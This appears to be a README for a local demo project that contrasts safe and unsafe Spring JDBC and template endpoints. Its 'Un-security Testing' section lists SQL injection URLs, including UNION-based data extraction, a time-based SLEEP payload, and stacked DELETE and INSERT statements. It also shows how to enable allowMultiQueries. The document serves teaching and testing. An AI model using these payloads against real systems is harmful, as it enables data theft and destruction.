 # Security Testing
## JDBC Single
- http://localhost:8086/jdbc/security/single?id=c-1
## JDBC List
- http://localhost:8086/jdbc/security/list?title=DEV
## Template Single
- http://localhost:8086/template/security/single?id=c-1
## Template List
- http://localhost:8086/template/security/list?title=DEV

# Un-security Testing
## JDBC Single
- http://localhost:8086/jdbc/un-security/single?id=c-1' AND 'a'='a
- http://localhost:8086/jdbc/un-security/single?id=c-1' OR 1=1 LIMIT 3,1-- ;
- http://localhost:8086/jdbc/un-security/single?id=NOO' UNION SELECT * FROM PRODUCT limit 3,1-- ;
- http://localhost:8086/jdbc/un-security/single?id=NOO' UNION SELECT DATABASE(), VERSION(), USER()-- ;
- http://localhost:8086/jdbc/un-security/single?id=NOO' OR IF(1>0, SLEEP(10), 1)-- ;
## JDBC List
- http://localhost:8086/jdbc/un-security/list?title=DEV' OR 'a'='a
- http://localhost:8086/jdbc/un-security/list?title=NOO' LIMIT 0,100 -- ;
- http://localhost:8086/jdbc/un-security/list?title=DEV' UNION SELECT * FROM PRODUCT-- ;
- http://localhost:8086/jdbc/un-security/list?title=DEV';DELETE FROM CUSTOMER-- ;[allowMultiQueries=true]
- http://localhost:8086/jdbc/un-security/list?title=DEV';INSERT INTO CUSTOMER(ID, NAME, TITLE) VALUES ('c-7','Andy','QA')-- ;[allowMultiQueries=true]
- http://localhost:8086/jdbc/un-security/list?title=DEV';INSERT INTO PRODUCT(ID, NAME, TITLE) VALUES ('p-7','Vivo X200','Phone')-- ;[allowMultiQueries=true]

# How to execute multiple queries in a single statement in java
- spring.datasource.url=jdbc:mysql://host/database?allowMultiQueries=true